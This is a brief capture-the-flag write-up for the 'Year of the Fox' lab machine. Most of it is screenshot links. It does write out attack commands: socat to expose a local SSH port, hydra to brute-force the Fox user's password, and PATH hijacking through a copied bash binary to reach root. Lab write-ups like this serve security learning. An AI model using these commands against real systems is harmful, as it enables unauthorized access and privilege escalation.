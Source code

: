 ```yaml
---
published: false
---
```

# Year of the Fox

- RCE Identification and exploitation

    ![POC](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled.png)

- Exploitaion

    ![POC1](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%201.png)

Port Forwarding 

- POC

    >> `tcp 0 0 127.0.0.1:22 0.0.0.0:* LISTEN -` 

    >> `netstat -tulw` shows `localhost:ssh`

    >> check `/etc/ssh/sshd_config` → shows `Listen Adress: 127.0.0.1, Allow User: Fox`

- Command to forward port 22 to 8001

    >> `socat tcp-listen:8001,reuseaddr,fork tcp:localhost:22` 

- Command to bruteforce Fox passwd

    >> `hydra -l user -P pss.txt -s 8081 <ip> -t 4 -V`

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/scr-200820-1711-51.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/scr-200820-1711-51.png)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/scr-200820-1713-47.png)

- Root

    >> Identification

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%202.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%202.png)

    >> Reversing Gets us (Path is not specified)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%203.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%203.png)

    >> Exploitaion

      >> `cp /bin/bash /tmp/poweroff`

      >> `export PATH=/tmp:$PATH`
